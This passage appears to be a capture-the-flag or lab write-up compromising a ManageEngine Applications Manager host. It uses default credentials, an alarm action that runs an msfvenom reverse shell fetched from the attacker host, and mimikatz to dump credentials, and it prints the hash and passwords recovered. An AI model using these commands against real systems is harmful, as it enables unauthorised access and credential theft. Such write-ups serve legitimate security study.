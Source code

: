 According to the official doc (https://www.manageengine.com/products/applications_manager/help/getting-started-applications-manager.html) the default crendtials are:
```
admin:admin
```
Bingo! The default credentials work to login to the web UI.

Under "Alarms" there is the option to create an action to execute a program:
![[Pasted image 20251020164059.png]]

Create reverse shell:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.208 LPORT=55555 -f exe -o rshell.exe
```

Download rshell.exe on windows and use it as the "program to execute" for the action:
```powershell
iwr -uri http://192.168.45.208/rshell.exe -Outfile rshell.exe
```

After executing the action we catch the reverse shell as NT authority/system:
```bash
nc -vlnp 55555
# listening on [any] 55555 ...
# connect to [192.168.45.208] from (UNKNOWN) [192.168.240.95] 59976
# Microsoft Windows [Version 10.0.19042.1706]
# (c) Microsoft Corporation. All rights reserved.

# C:\Users\Eric.Wallows>whoami
# whoami
# nt authority\system
```

Flag:
```cmd
C:\Users\Eric.Wallows>type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
619f2567cc681ebea20f4405dcb6924b
```

Next, lets download mimikatz and see if there are more credentials:
```powershell
iwr -uri http://192.168.45.208/mimikatz.exe -Outfile mimikatz.exe
```
=> new Creds:
```
Administrator:a51493b0b06e5e35f855245e71af1d14
apache:New2Era4.!
```

Alternative, the following file contains the credentials too:
```powershell
type C:\Users\Administrator\AppData\Local\Microsoft\"Remote Desktop Connection Manager"\RDCMan.settings

# <server>Connect To\era.secura.yzx</server>
# <userName>apache</userName>
# <password>New2Era4.!</password>
```
